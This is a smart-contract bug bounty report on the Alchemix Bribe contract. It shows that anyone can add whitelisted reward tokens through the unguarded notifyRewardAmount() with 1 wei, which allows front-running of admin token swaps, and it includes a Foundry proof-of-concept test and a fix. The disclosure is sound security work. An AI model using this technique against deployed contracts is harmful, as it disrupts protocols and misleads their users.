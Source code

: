 
# Alchemix : addReward() access control can be bypassed in Bribe contract

Submitted on Sun May 19 2024 16:24:08 GMT-0400 (Atlantic Standard Time) by @Norah for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31462

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Contract fails to deliver promised returns, but doesn't lose value

## Description
## Brief/Intro
The bribe contract has an access-controlled function `addRewardToken()` that allows only the corresponding gauge to add a new reward token to the rewards list. Although many tokens are whitelisted by the voter contract, only the gauge can determine which of these whitelisted tokens should be added to the bribe contract as a reward token.

```solidity
    function addRewardToken(address token) external {
        require(msg.sender == gauge, "not being set by a gauge");
       
        _addRewardToken(token);
    }
```

```solidity
    function _addRewardToken(address token) internal {
        if (!isReward[token] && token != address(0)) {
            require(rewards.length < MAX_REWARD_TOKENS, "too many rewards tokens");
            require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");

            isReward[token] = true;
            rewards.push(token);
        }
    }
```

## Vulnerability Details
The problem lies in the `notifyRewardAmount()` function, which lacks any access control. This function allows anyone to inject a reward into the bribe contract by specifying the token address and amount. If the token is whitelisted but not yet added to the rewards list, it will simply be added.
```
    function notifyRewardAmount(address token, uint256 amount) external lock {
        require(amount > 0, "reward amount must be greater than 0");

        // If the token has been whitelisted by the voter contract, add it to the rewards list
        require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");

        _addRewardToken(token);

        // bribes kick in at the start of next bribe period
        uint256 adjustedTstamp = getEpochStart(block.timestamp);
        uint256 epochRewards = tokenRewardsPerEpoch[token][adjustedTstamp];

        IERC20(token).safeTransferFrom(msg.sender, address(this), amount);

        tokenRewardsPerEpoch[token][adjustedTstamp] = epochRewards + amount;
        periodFinish[token] = adjustedTstamp + DURATION;

        emit NotifyReward(msg.sender, token, adjustedTstamp, amount);
    }

```
As a result, anyone can add a whitelisted token to the bribe contract by calling `notifyRewardAmount()` function with the token address and a minimal amount of 1 wei.
 
## Impact Details
Malicious users can add numerous reward tokens to the bribe, misleading users or external projects querying the list of reward tokens for a particular bribe contract. Additionally, there is a `swapOutRewardToken()` function that allows the admin of the voter contract to swap out reward tokens.

The admin must call `swapOutRewardToken(uint256 oldTokenIndex, address oldToken, address newToken)` with the respective indexes of the tokens they wish to swap out. A malicious user (e.g., an aggressive competitor) can front-run the admin's transaction by calling `notifyRewardAmount()`, adding new tokens and thereby changing the previous token indexes to alter the intended outcome of the admin's transaction. This can also lead to a denial of service (DoS) for other normal functionalities, at least temporarily.

## Recommendation 
Remove the functionality that allows any user to add reward tokens by calling `notifyRewardAmount().`

```
    function notifyRewardAmount(address token, uint256 amount) external lock {
        require(amount > 0, "reward amount must be greater than 0");

        // If the token has been whitelisted by the voter contract, add it to the rewards list
        require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");

---   _addRewardToken(token);

        // bribes kick in at the start of next bribe period
        uint256 adjustedTstamp = getEpochStart(block.timestamp);
        uint256 epochRewards = tokenRewardsPerEpoch[token][adjustedTstamp];

        IERC20(token).safeTransferFrom(msg.sender, address(this), amount);

        tokenRewardsPerEpoch[token][adjustedTstamp] = epochRewards + amount;
        periodFinish[token] = adjustedTstamp + DURATION;

        emit NotifyReward(msg.sender, token, adjustedTstamp, amount);
    }
```
        
## Proof of concept
## Proof of Concept
- Below test showcases how any users can add any whitelisted token to the `rewardlist` using `notifyRewardAmount()` function.
- Add the below test into the `voting.t.sol` file of the current test suite and run via following command :
- forge test --fork-url https://eth-mainnet.g.alchemy.com/v2/{Alchemy-Api-Key} --match-test "testRewardTokenAddition" -vv

```

    function testRewardTokenAddition() public{

        //lets whitelist usdc for the sake of example.    
        hevm.prank(address(timelockExecutor));
        IVoter(voter).whitelist(usdc);

        //current reward token in the list.
        address bribeAddress = voter.bribes(address(sushiGauge));
        uint256 rewardsLength = IBribe(bribeAddress).rewardsListLength();
        console2.log("rewards_list : ",IBribe(bribeAddress).rewards(rewardsLength-1));

        //Malicious User calling the notifyRewardAmount to add USDC as rewards token into the list 
        //with the usdc address and just 1 wei of amount

        deal(usdc, address(this), 1);
        IERC20(usdc).approve(bribeAddress, 1);

        IBribe(bribeAddress).notifyRewardAmount(usdc, 1);
        rewardsLength = IBribe(bribeAddress).rewardsListLength();

        //usdc has been added to the rewards list.
        console2.log("rewards_list : ",IBribe(bribeAddress).rewards(rewardsLength-1));
        assertEq(IBribe(bribeAddress).rewards(rewardsLength-1),usdc); 
        
    }

```